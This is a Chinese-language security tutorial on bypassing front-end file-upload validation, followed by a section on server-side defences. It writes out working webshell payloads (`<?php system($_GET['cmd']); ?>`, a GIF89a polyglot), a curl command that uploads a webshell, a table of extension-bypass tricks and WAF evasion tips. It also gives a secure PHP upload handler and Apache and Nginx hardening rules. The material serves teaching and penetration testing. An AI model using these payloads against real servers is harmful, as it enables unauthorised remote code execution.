



> 环境：任意 Web 应用（前端使用 JavaScript 校验文件类型）。测试工具：Burp Suite / 浏览器开发者工具。

***

## 一、什么是前端校验

前端校验（Client-Side Validation）是指在用户浏览器中通过 JavaScript 对上传文件进行预检的技术手段，常见形式包括 `<input accept>` 属性限制、`onsubmit` 事件校验扩展名和 MIME 类型。

**核心原则：前端校验是用户体验优化，不是安全机制。** 任何依赖前端校验进行安全控制的系统都可被轻易绕过。

| 维度 | 前端校验 | 服务端校验 |
|------|---------|-----------|
| 执行位置 | 用户浏览器（攻击者完全可控） | Web 服务器 |
| 安全强度 | 几乎为零 | 唯一的防护屏障 |
| 设计目的 | 提升体验、减少无效请求 | 防御恶意文件上传 |

---

## 二、前端校验绕过方法

### 2.1 删除 JavaScript 校验函数

直接在浏览器 Console 中覆盖校验逻辑。

**典型前端代码：**

```javascript
// 前端 onsubmit 校验
function validateFile() {
    var file = document.getElementById('fileInput').files[0];
    var allowed = ['jpg', 'jpeg', 'png', 'gif'];
    var ext = file.name.split('.').pop().toLowerCase();
    if (allowed.indexOf(ext) === -1) {
        alert('只允许上传图片文件');
        return false;
    }
    return true;
}
```

**绕过：** F12 打开 Console，执行以下任一命令：

```javascript
// 方式一：重写校验函数，始终返回 true
validateFile = function() { return true; };

// 方式二：直接删除 onsubmit 事件绑定
document.getElementById('uploadForm').onsubmit = null;

// 方式三：删除整个函数定义
delete window.validateFile;
```

之后选择任意 `.php` 文件上传，不再被前端拦截。

### 2.2 禁用浏览器 JavaScript

完全禁用 JavaScript，使所有前端代码失效。

**Chrome 操作：** `F12 → Ctrl+Shift+P → 输入 "Disable JavaScript" → 回车`。所有前端事件失效，表单直接提交到后端。

### 2.3 Burp Suite 拦截修改（推荐）

这是渗透测试中最规范的方法 — 绕过浏览器直接与服务器交互。



**步骤：**

1. 浏览器代理设为 `127.0.0.1:8080`，Burp Intercept 开启
2. 在前端正常上传一个 `.jpg` 图片，Burp 拦截到请求：

```http
POST /upload.php HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXyz

------WebKitFormBoundaryXyz
Content-Disposition: form-data; name="uploaded_file"; filename="test.jpg"
Content-Type: image/jpeg

... binary image data ...
------WebKitFormBoundaryXyz--
```

3. `Ctrl+R` 发送到 Repeater，修改三个关键字段：

| 修改项 | 原始值 | 修改为 | 目的 |
|--------|--------|--------|------|
| `filename` | `test.jpg` | `shell.php` | 绕过扩展名限制 |
| `Content-Type` | 保持 `image/jpeg` | — | 伪装为合法 MIME |
| 文件内容 | 图片二进制 | `<?php system($_GET['cmd']); ?>` | 替换为 WebShell |

4. 点击 Send，若返回 `File uploaded to: /uploads/shell.php`，则成功。

### 2.4 修改 accept 属性 / 直接用 curl

```html
<!-- 修改前 -->
<input type="file" accept=".jpg,.jpeg,.png">

<!-- F12 → Elements → 双击 accept → 删除或改为 */* -->
<input type="file" accept="*/*">
```

或完全脱离浏览器：

```bash
# 直接 POST 上传一句话木马
curl -X POST http://target.com/upload.php \
  -F "uploaded_file=@shell.php;type=image/jpeg" \
  -v
```

---

## 三、MIME 类型伪造

浏览器中的 `file.type` 值来源于 **浏览器对文件扩展名的解析**，并非文件实际内容：

| 文件扩展名 | 浏览器识别的 MIME |
|-----------|-------------------|
| `.jpg` | `image/jpeg` |
| `.png` | `image/png` |
| `.php` | 空字符串（不在 MIME 映射表） |
| `.phtml` | 空字符串 |

**前端 MIME 校验典型代码：**

```javascript
var allowedMIME = ['image/jpeg', 'image/png', 'image/gif'];
if (allowedMIME.indexOf(file.type) === -1) {
    alert('不允许的文件类型');
    return false;
}
```

**绕过方式：** 将 WebShell 命名为 `shell.php`，浏览器 `file.type` 为空。大多数开发者未处理空值情况，校验直接通过。

**在 HTTP 层面：** `Content-Type` 头部可任意伪造。Burp 中直接修改或 curl 指定 `type=image/jpeg` 即可欺骗仅检查此头部值的后端。

---

## 四、扩展名绕过手法

### 4.1 常见绕过速查表

| 手法 | 示例文件名 | 原理 |
|------|-----------|------|
| 双扩展名 | `shell.jpg.php` | 黑名单只匹配最后一个 `.` 之后 |
| 大小写混用 | `shell.PhP` | 检测未做大小写不敏感处理 |
| 空格绕过 | `shell.php .` | 后缀后追加空格，某些系统自动 trim |
| 点号绕过 | `shell.php.` | Windows 自动去除末尾点号 |
| Null Byte 截断 | `shell.php%00.jpg` | PHP < 5.3.4 截断 |
| 特殊可解析扩展名 | `shell.phtml`, `shell.php5`, `shell.phar`, `shell.pht` | Apache 可能解析这些为 PHP |
| ::$DATA | `shell.php::$DATA` | Windows NTFS 流特性 |
| IIS 特性 | `shell.asa`, `shell.cer`, `shell.aspx` | IIS 解析特性 |

### 4.2 实战案例：黑名单前端校验

某 CMS 前端黑名单禁止 `.php`、`.php5`、`.phtml`，但服务端无校验：

```javascript
var forbidden = ['php', 'php3', 'php4', 'php5', 'phtml'];
var ext = file.name.split('.').pop().toLowerCase();
if (forbidden.indexOf(ext) !== -1) {
    alert('禁止上传脚本文件');
    return false;
}
```

**测试：** 浏览器上传任意 `.jpg` → Burp 拦截 → Repeater 改 filename 为 `shell.php`，内容改为 `<?php phpinfo(); ?>` → Send → 访问 `/uploads/shell.php` → 上传成功。

> **本质：** 在前端被拦截，服务端裸奔 — 这是最常见的不安全设计模式。

---

## 五、正确测试方法论：Burp → Repeater

### 5.1 新手常见错误



**任何未经 Burp 测试的文件上传功能都不能被认定为安全。**

### 5.2 标准测试 Checklist

| # | 检查项 | 测试方法 |
|---|--------|---------|
| 1 | 是否存在前端校验？ | 查看页面源码 `accept` / `onsubmit` / `validate` |
| 2 | 禁用 JS 后可上传？ | DevTools → Disable JavaScript → 上传 `.php` |
| 3 | Burp 改扩展名 | `shell.php` / `shell.phtml` / `shell.php5` |
| 4 | Burp 改 Content-Type | `image/jpeg` + PHP 内容 |
| 5 | 大小写绕过 | `shell.PhP` / `shell.ASPx` |
| 6 | 双扩展名 | `shell.php.jpg` / `shell.jpg.php` |
| 7 | 空格/点绕过 | `shell.php .` / `shell.php.` |
| 8 | 图片马（Magic Bytes） | `GIF89a;<?php system($_GET['cmd']); ?>` |
| 9 | 上传后文件可访问？ | 直接 GET 上传路径 |
| 10 | 上传后文件被执行？ | 访问 WebShell 附带 `?cmd=whoami` |

### 5.3 图片马构造

当服务端检测文件头部魔数时，需构造合法文件头 + 恶意代码：

```bash
# Windows                     # Linux
copy /b legit.jpg + shell.php webshell.jpg.php
cat legit.jpg shell.php > webshell.jpg.php
```

```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

---

## 六、常见坑点

| 坑点 | 说明 | 应对 |
|------|------|------|
| 文件名被 UUID 重命名 | 上传后文件名随机化 | 从响应体中提取新路径 |
| 返回路径不完整 | 只返回文件名 | 目录扫描常见上传路径 `/uploads/` `/upload/` `/images/` |
| 上传目录禁止脚本执行 | `.htaccess` 禁用了 PHP | 尝试路径穿越或 `.htaccess` 覆盖 |
| WAF 拦截 `<?php` | 关键字被拦 | 使用 `<script language="php">` / 短标签 `<?=` |
| 前端 CSRF Token | 每次上传需有效 Token | 先 GET 页面提取 Token，再 POST |
| 解析差异 | 不同服务器对扩展名处理不同 | 多尝试：`.pht` / `.php5` / `.shtml` / `.asa` |

---

## 七、服务端正确防御

### 7.1 多层防御架构



### 7.2 PHP 安全上传代码

```php
<?php
$allowed_ext  = ['jpg', 'jpeg', 'png', 'gif'];
$allowed_mime = ['image/jpeg', 'image/png', 'image/gif'];
$max_size     = 2 * 1024 * 1024;
$upload_dir   = '/var/www/uploads/';

if (!isset($_FILES['uploaded_file']))        die('无文件');
$f = $_FILES['uploaded_file'];
if ($f['error'] !== UPLOAD_ERR_OK)           die('上传错误: ' . $f['error']);
if ($f['size'] > $max_size)                  die('文件过大');

// ① 白名单校验扩展名 — 服务端独立，不信任客户端数据
$ext = strtolower(pathinfo($f['name'], PATHINFO_EXTENSION));
if (!in_array($ext, $allowed_ext, true))     die('扩展名不允许: ' . $ext);

// ② 真实 MIME 类型 — finfo 读文件内容，不信任 $_FILES['type']
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$real_mime = finfo_file($finfo, $f['tmp_name']);
finfo_close($finfo);
if (!in_array($real_mime, $allowed_mime, true)) die('MIME 不匹配: ' . $real_mime);

// ③ 校验图片真实结构（可选）
if (strpos($real_mime, 'image/') === 0 && getimagesize($f['tmp_name']) === false)
    die('非真实图片');

// ④ 安全随机文件名
$new_name = bin2hex(random_bytes(16)) . '.' . $ext;
$dest = $upload_dir . $new_name;
if (!move_uploaded_file($f['tmp_name'], $dest)) die('保存失败');
echo '上传成功: /uploads/' . $new_name;
```

### 7.3 服务器配置加固

**Apache `.htaccess`：**

```apache
php_flag engine off
RemoveHandler .php .phtml .php5 .pht .phar
<FilesMatch "\.(php|phtml|phar|pht|php\d)$">
    Order Allow,Deny
    Deny from all
</FilesMatch>
Options -Indexes
```

**Nginx：**

```nginx
location /uploads/ {
    location ~ \.php$ { deny all; }
}
```

---

## 核心知识点

- 前端校验 **不是安全机制** — 浏览器环境完全受攻击者控制
- **Burp → Repeater** 是测试文件上传漏洞的唯一标准方法论
- MIME 类型在前端来自扩展名映射，在 HTTP 中可任意伪造；只有服务端 `finfo` 才能读取真实类型
- 黑名单永远不如白名单安全 — 新的可执行扩展名（`.pht`、`.phar`、`.php7`）持续出现
- 文件重命名 + 上传目录禁止脚本执行是最后的兜底防线
- "前端挡住了所以安全" 是初学者最危险的误解

---

> **免责声明：** 本文仅用于安全研究和教学目的，旨在帮助开发者理解文件上传漏洞原理与防御方法。文中技术严禁用于未授权测试或非法用途。对未获得书面授权的系统进行安全测试可能违反法律法规，因不当使用造成的一切后果由使用者自行承担，作者不承担任何责任。
